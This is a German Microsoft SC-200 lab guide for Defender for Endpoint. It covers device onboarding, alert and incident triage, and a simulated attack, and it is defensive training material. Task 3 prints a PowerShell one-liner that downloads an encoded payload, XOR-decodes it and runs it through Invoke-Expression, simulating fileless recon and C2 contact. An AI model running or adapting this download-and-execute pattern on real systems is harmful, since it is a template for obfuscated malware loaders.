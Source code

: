 ```yaml
---
lab:
  title: Übung 2 – Entschärfen von Angriffen mit Microsoft Defender for Endpoint
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# Lernpfad 2 – Übung 1 – Übung 2 – Minimieren von Angriffen mit Microsoft Defender for Endpoint

## Labszenario

![Übersicht über Lab.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

Sie sind Security Operations Analyst in einem Unternehmen, das Microsoft Defender für Endpunkt implementiert. Ihr Vorgesetzter plant, einige Geräte zu integrieren, um einen Einblick in die erforderlichen Änderungen der Reaktionsverfahren des SecOps-Teams zu erhalten.

Zum Erkunden der Angriffsentschärfungsfunktionen von Defender for Endpoint werden Sie das erfolgreiche Geräte-Onboarding überprüfen sowie Warnungen und Vorfälle untersuchen, die während dieses Prozesses erstellt wurden.

>**Hinweis:** Eine **[interaktive Labsimulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** ist verfügbar, mit der Sie dieses Lab in Ihrem eigenen Tempo durcharbeiten können. Möglicherweise liegen geringfügige Unterschiede zwischen der interaktiven Simulation und dem gehosteten Lab vor, aber die dargestellten Kernkonzepte und Ideen sind identisch.

### Aufgabe 1: Überprüfung des Onboarding der Geräte

In dieser Aufgabe bestätigen Sie, dass das Gerät erfolgreich integriert ist und erstellen eine Testwarnung.

1. Wenn Sie noch nicht im Microsoft Defender XDR-Portal in Ihrem Microsoft Edge-Browser sind, navigieren Sie zu https://security.microsoft.com) und melden sich als Administrator*in für Ihren Mandanten an.

1. Wählen Sie im linken Menü unter **Ressourcen** die Option **Geräte** aus. Bitte warten Sie, bis WIN1 auf der Seite „Geräte“ angezeigt wird, bevor Sie fortfahren. Andernfalls müssen Sie diese Aufgabe möglicherweise wiederholen, um die später generierten Warnmeldungen zu sehen.

    >**Hinweis:** Wenn Sie den Onboarding-Prozess abgeschlossen haben und nach einer Stunde keine Geräte in der Liste „Geräte“ angezeigt werden, kann dies auf ein Onboarding- oder Verbindungsproblem hindeuten.

1. Wählen Sie in der linken Menüleiste **Einstellungen** und dann auf der Seite Einstellungen **Endpunkte** aus.

1. Wählen Sie im Abschnitt Geräteverwaltung **Onboarding** und stellen Sie sicher, dass *„Windows 10 und 11“* als Betriebssystem ausgewählt ist. Die Meldung *„Erstes Gerät integriert“* zeigt nun *Abgeschlossen* an.

1. Scrollen Sie nach unten und kopieren Sie im Abschnitt *„2. Erkennungstest durchführen“* das Erkennungstest-Skript, indem Sie die Schaltfläche **Kopieren**auswählen.  

1. Geben Sie in der Windows-Suchleiste den virtuellen Computer WIN1 **CMD** ein und wählen Sie im rechten Fensterbereich **Als Administrator ausführen** für die Eingabeaufforderung aus.

1. Wenn das Fenster „Benutzerkontensteuerung“ angezeigt wird, wählen Sie **Ja**, um die App auszuführen. 

1. Fügen Sie das Skript ein, indem Sie mit der rechten Maustaste auf die **Administrator: Eingabeaufforderung** klicken und die **Eingabetaste** drücken, um es auszuführen.

    >**Hinweis:** Nach erfolgreicher Ausführung des Skripts wird das Fenster automatisch geschlossen, und nach ein paar Minuten werden Warnungen im Microsoft Defender XDR-Portal generiert.

### Aufgabe 2: Untersuchen von Warnungen und Vorfällen

In dieser Aufgabe untersuchen Sie die Warnungen und Vorfälle, die vom Onboarding-Erkennungstestskript in der vorherigen Aufgabe generiert wurden.

1. Wählen Sie im Microsoft Defender XDR-Portal in der linken Menüleiste **Incidents und Warnungen** und dann **Warnungen** aus.

1. Wählen Sie im Bereich **Warnungen** die Warnung namens *Verdächtige PowerShell-Befehlszeile* aus, um ihre Details zu laden.

1. Überprüfen Sie die Zeitachse *Warnungsverlauf* und dann die Registerkarten *Details* und *Empfehlungen*.

    >**Hinweis:** Unter der Registerkarte *Details* der Warnung können Sie nach unten zum Bereich *Details zum Incident* blättern und dann den Link *Ausführungsvorfall auf einem Endpunkt* auswählen, um den Vorfall zu öffnen.

1. Wählen Sie im Microsoft Defender XDR-Portal in der linken Menüleiste **Incidents und Warnungen** und dann **Incidents** aus.

1. Ein neuer Vorfall namens *Ausführungsvorfall auf einem Endpunkt* befindet sich im rechten Bereich. Wählen Sie den Namen des Vorfalls, um seine Details zu laden.

1. Wählen Sie den Link **Vorfall verwalten** (mit einem Bleistiftsymbol) aus. Daraufhin wird ein neues Fensterblatt angezeigt.

1. Geben Sie unter **Incidenttags** die Zeichenfolge „Simulation“ ein, und wählen Sie **Simulation (Neu erstellen)** aus, um ein neues Tag zu erstellen.

1. Wählen Sie die Schaltfläche **Zuweisen an**  und fügen Sie Ihr Benutzerkonto (Ich) als Besitzer des Vorfalls hinzu.

1. Erweitern Sie unter **Klassifizierung**das Dropdownmenü.

1. Wählen Sie unter **Information, erwartete Aktivität** **Sicherheitstests** aus.

1. Fügen Sie bei Bedarf Kommentare hinzu und wählen Sie **Speichern**, um das Ereignis zu aktualisieren und zu schließen.

1. Überprüfen Sie den Inhalt der Registerkarten *Angriffshistorie, Alarme, Ressourcen, Untersuchungen, Beweise und Reaktion* und *Zusammenfassung*. Geräte und Benutzer:innen befinden sich unter der Registerkarte *Ressourcen*. In einem echten Vorfall wird auf der Registerkarte *Angriffsverlauf* das *Vorfalldiagramm* angezeigt. **Hinweis:** Einige Registerkarten sind möglicherweise wegen der Größe Ihres Displays nicht sichtbar. Wählen Sie die Registerkarte Auslassungspunkte (…), um sie anzuzeigen.

### Aufgabe 3: Simulieren eines Angriffs

>**Warnung:** Dieser simulierte Angriff ist eine hervorragende praktische Lernquelle. Führen Sie den Angriff aus den Anweisungen für diese Übung nur aus, wenn Sie den für den Kurs bereitgestellten Azure-Mandanten verwenden.  Sie können andere simulierte Angriffe für diesen Mandanten durchführen, *nachdem* dieser Schulungskurs abgeschlossen wurde.

In dieser Aufgabe simulieren Sie einen Angriff auf die WIN1-VM und überprüfen, ob der Angriff von Microsoft Defender for Endpoint erkannt und abgewehrt wird.

1. Klicken Sie auf der WIN1-VM *mit der rechten Maustaste* auf die Schaltfläche **Start**, und wählen Sie **Windows PowerShell (Administrator)** aus.

1. Wenn das Fenster „Benutzerkontensteuerung“ angezeigt wird, wählen Sie **Ja**, um die App auszuführen.

1. Kopieren Sie das folgende Simulationsskript, und fügen Sie es in das PowerShell-Fenster ein. Drücken Sie anschließend die **Eingabetaste**, um es auszuführen:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Hinweis:** Wenn beim Ausführen des Skripts Fehler (rot) auftreten, können Sie die Editor-App öffnen und das Skript in eine leere Datei kopieren. Stellen Sie sicher, dass *Zeilenumbruch* im Editor aktiviert ist. Kopieren Sie dann jede Zeile des Skripts separat in PowerShell, und führen Sie sie aus. Außerdem wurde ein PowerShell-Skript (attacksim.ps1) in den Dateien bereitgestellt, die am Anfang der Labore heruntergeladen wurden. Um das Skript zu verwenden, navigieren Sie in **Windows PowerShell (Administrator)** zum *Ordner \Users\Admin\Desktop*, und geben Sie *.\attacksim.ps1* ein, und drücken **Sie die EINGABETASTE**, um es auszuführen.

1. Das Skript erzeugt eine Ausgabe mit mehreren Zeilen und die Meldung, dass *Domänencontroller in der Domäne nicht aufgelöst werden konnten*. Ein paar Sekunden später wird die *Editor*-App geöffnet. Ein simulierter Angriffscode wird im Editor eingefügt. Lassen Sie die automatisch generierte Editor-Instanz geöffnet, um das vollständige Szenario zu erleben. Der simulierte Angriffscode versucht, mit einer externen IP-Adresse zu kommunizieren (simuliert einen C2-Server).

### Aufgabe 4: Untersuchen des simulierten Angriffs als einzelner Incident

1. Wählen Sie im Microsoft Defender XDR-Portal in der linken Menüleiste **Incidents und Warnungen** und dann **Incidents** aus.

1. Ein neuer Incident namens *Mehrstufiger Incident mit Verteidigungsumgehung und -ermittlung auf einem Endpunkt* befindet sich im rechten Bereich. Wählen Sie den Namen des Vorfalls, um seine Details zu laden.

1. Reduzieren Sie auf der Registerkarte *Angriffsverlauf* die Bereiche **Warnungen** und **Incidentdetails**, um das vollständige **Incidentdiagramm** anzuzeigen.

1. Zeigen Sie mit der Maus auf die **Incidentdiagrammknoten** und wählen Sie sie aus, um die *Entitäten* zu überprüfen.

1. Erweitern Sie wieder den Bereich **Warnungen** (links) und wählen Sie **Angriffsverlauf wiedergeben** und das Symbol *Ausführen* aus. Dadurch wird die Angriffszeitleiste mit den einzelnen Warnungen angezeigt und das *Incidentdiagramm* dynamisch ausgefüllt.

1. Überprüfen Sie den Inhalt der Registerkarten *Angriffshistorie, Alarme, Ressourcen, Untersuchungen, Beweise und Reaktion* und *Zusammenfassung*. Geräte und Benutzer:innen befinden sich unter der Registerkarte *Ressourcen*. **Hinweis:** Einige Registerkarten sind möglicherweise wegen der Größe Ihres Displays nicht sichtbar. Wählen Sie die Registerkarte Auslassungspunkte (…), um sie anzuzeigen.

1. Wählen Sie auf der Registerkarte **Beweis und Antwort** die Option **IP-Adressen** und dann die angezeigte *IP-Adresse* aus. Überprüfen Sie im Popupfenster die IP-Adressdetails, scrollen Sie nach unten, und wählen Sie die Schaltfläche **IP-Adressseite öffnen** aus.

1. Überprüfen Sie auf der Seite *IP-Adresse* die Registerkarten *„Übersicht“, „Incidents und Warnungen“ und „Beobachtet in Organisationen“*. Einige Registerkarten enthalten möglicherweise keine Informationen für die IP-Adresse.

## Damit haben Sie das Lab beendet
